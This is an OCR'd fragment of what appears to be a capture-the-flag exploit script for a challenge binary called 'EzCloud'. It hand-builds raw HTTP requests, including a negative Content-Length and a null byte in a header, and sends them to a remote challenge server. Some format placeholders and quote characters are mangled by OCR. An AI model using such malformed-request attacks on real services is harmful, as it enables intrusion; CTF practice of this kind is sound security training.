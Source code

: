 def edit_note(login_id, cont, note_id):

    payload =  “POST /notepad HTTP/1.1\r\n”

    payload += “Content-Length: `{``}`\r\n”.format(len(cont))

    payload += “Content-Type: application/x-www-form-urlencoded\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “Note-Operation: edit%20note\r\n”

    payload += “Note-ID: `{``}`%00\r\n”.format(note_id)

    payload += “\r\n”

    payload += cont

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

def get_node(login_id):

    payload =  “GET /notepad HTTP/1.1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​

elf = ELF(“./EzCloud”, checksec = False)

#io = process(elf.path)

#io = remote(“172.17.0.2”, 1234)

io = remote(“47.94.234.66”, 37128)

​

payload =  “POST /connectvm HTTP/1.1\r\n”

payload += “Content-Length: -1\r\n”

payload += “\r\n”

io.send(payload)

io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

# sleep(1)

